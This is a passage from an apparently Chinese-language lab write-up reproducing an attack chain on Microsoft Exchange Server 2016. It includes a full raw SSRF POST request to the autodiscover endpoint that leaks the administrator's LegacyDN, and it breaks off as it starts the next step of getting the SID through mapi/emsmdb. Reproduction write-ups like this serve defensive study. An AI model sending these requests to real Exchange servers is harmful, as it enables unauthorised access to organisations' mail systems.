 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093217.png)  

  

 **Exchange Server 2016：**  

https://www.msdn.hk/html/2015/1579.html  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093218.png)  

  

 **安装教程：**

https://blog.51cto.com/rdsrv/1911356  

  

 **0x05 漏洞复现**  
  
  

1、攻击链第一步要通过SSRF  

请求AutoDiscover服务，获取legacyDn

  * 

    
    
    /autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/autodiscover/autodiscover.xml

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093220.png)  

  *   *   *   *   *   *   *   * 

    
    
    POST https://192.168.114.12/autodiscover/autodiscover.json?a=ktacz@ygjnt.jzk/autodiscover/autodiscover.xml HTTP/1.1Host: 192.168.114.12Accept-Encoding: identityCookie: Email=autodiscover/autodiscover.json?a=ktacz@ygjnt.jzkContent-Type: text/xmlContent-Length: 316  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006"><Request><EMailAddress>administrator@kdc.com</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825093222.png)

  

通过如上图  

获取到LegacyDN与proxylogon类似  

  
2、接下来我们要获取500sid的值  
通过mapi/emsmdb 接口进行获取  

加入如下header头body带入LegacyDN的值

    
